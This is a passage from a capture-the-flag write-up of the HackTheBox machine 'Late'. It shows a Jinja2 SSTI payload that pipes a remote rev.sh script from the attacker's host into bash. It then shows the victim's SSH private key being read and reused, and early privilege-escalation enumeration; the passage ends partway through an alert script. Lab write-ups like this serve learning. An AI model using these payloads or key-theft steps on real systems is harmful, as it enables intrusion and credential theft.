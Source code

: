 >   The SSTI payload used: `{{ cycler.__init__.__globals__.os.popen('curl http://10.10.14.4/rev.sh | bash').read() }}`
>
>   Note: Depending on the error that the application throws while reading the payload, you have to modify it such as adding extra “_” in the payload. 

# Privilege Escalation

Before we begin, we should grab the `id_rsa` file for easier access using `ssh`!

```bash
svc_acc@late:~/app$ cat ~/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
...
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

- Local Machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# mousepad id_rsa    
< copy & paste the private key here >

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# chmod 600 id_rsa    

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# ssh svc_acc@10.10.11.156 -i id_rsa
Warning: SSH client configured for wide compatibility by kali-tweaks.
svc_acc@late:~$ 
```

Lets try `su -` to see if we can get an easy win.

```bash
svc_acc@late:~$ su -
Password: 
```

Lets check if `svc_acc` can run any command as root.

```bash
svc_acc@late:~$ sudo -l
[sudo] password for svc_acc: 
```

Lets try if we can find any interesting files owned by `svc_acc`.

```bash
svc_acc@late:~$ find / -user svc_acc 2>/dev/null
...
< too much information being printed >
^C

svc_acc@late:~$ find / -user svc_acc 2>/dev/null | grep -v '/proc\|/home\|/var\|/sys\|/run'
/usr/local/sbin
/usr/local/sbin/ssh-alert.sh
/dev/pts/0
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

```